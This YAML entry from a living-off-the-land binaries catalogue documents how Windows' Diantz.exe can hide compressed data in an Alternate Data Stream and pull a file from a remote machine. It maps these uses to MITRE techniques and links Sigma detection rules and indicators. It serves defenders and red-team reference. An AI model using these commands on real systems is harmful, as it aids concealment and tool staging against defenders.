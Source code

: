```yaml
---
Name: Diantz.exe
Description: Binary that package existing files into a cabinet (.cab) file
Author: 'Tamir Yehuda'
Created: 2020-08-08
Commands:
  - Command: diantz.exe c:\pathToFile\file.exe c:\destinationFolder\targetFile.txt:targetFile.cab
    Description: Compress taget file into a cab file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an Alternate Data Stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows XP, Windows vista, Windows 7, Windows 8, Windows 8.1.
    Tags:
      - Type: Compression
  - Command: diantz.exe \\remotemachine\pathToFile\file.exe c:\destinationFolder\file.cab
    Description: Download and compress a remote file and store it in a cab file on local machine.
    Usecase: Download and compress into a cab file.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows Server 2012, Windows Server 2012R2, Windows Server 2016, Windows Server 2019
    Tags:
      - Type: Compression
Full_Path:
  - Path: c:\windows\system32\diantz.exe
  - Path: c:\windows\syswow64\diantz.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_diantz_ads.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_diantz_remote_cab.yml
  - IOC: diantz storing data into alternate data streams.
  - IOC: diantz getting a file from a remote machine or the internet.
Resources:
  - Link: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diantz
Acknowledgement:
  - Person: Tamir Yehuda
    Handle: '@tim8288'
  - Person: Hai Vaknin
    Handle: '@vakninhai'
---
```

